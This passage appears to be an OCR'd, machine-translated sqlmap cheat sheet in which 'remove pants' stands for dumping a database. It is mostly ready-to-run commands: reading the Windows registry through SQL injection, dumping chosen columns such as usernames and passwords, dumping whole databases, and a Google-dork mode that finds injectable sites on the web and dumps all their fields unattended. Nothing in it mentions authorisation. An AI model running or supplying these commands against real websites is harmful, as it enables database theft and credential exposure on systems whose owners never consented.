 Sqlmap -u "http://url/news?id=1" --reg-read					# read win system registry
Sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" 		# Save the progress
Sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume # Restore saved progress


################
################


-v parameter, level of detail, observe how sqlmap is trying to judge a point and read data.

## There are seven levels, the default is 1:

0, only show python errors and serious information.
 
1. Display basic information and warning information at the same time. (default)
 
2. Display debug information at the same time.
 
3. Display the injected payload at the same time.
 
4. Display HTTP requests at the same time.
 
5. Display the HTTP response header at the same time.
 
6. Display the HTTP response page at the same time.


# Use sqlmap to remove pants
The –dump parameter is used to remove the pants. Add the whole -all(–dump-all) if you drag the whole

Specify the field specified in the specified table:

sqlmap -u "http://xxx/index.php?id=1" --dump -D DBName -T TableName -C "id,username,password"

Take off the entire pants:

sqlmap -u "http://xxx/index.php?id=1" -D DBName --dump-all


# Advanced usage

-p name Multiple parameters such as index.php?n_id=1&name=2&data=2020 We want to specify the name parameter to inject

Sqlmap -g "google syntax" --dump-all --batch #google search injection point automatically runs out all fields, you need to ensure that google.com can access normally

--technique test specifies the type of injection\technology used

Test all injection techniques by default without parameters
• B: Boolean based SQL blind
• E: based on error sql injection
• U: based on UNION injection
• S: stacked sql injection
• T: Time-based blind
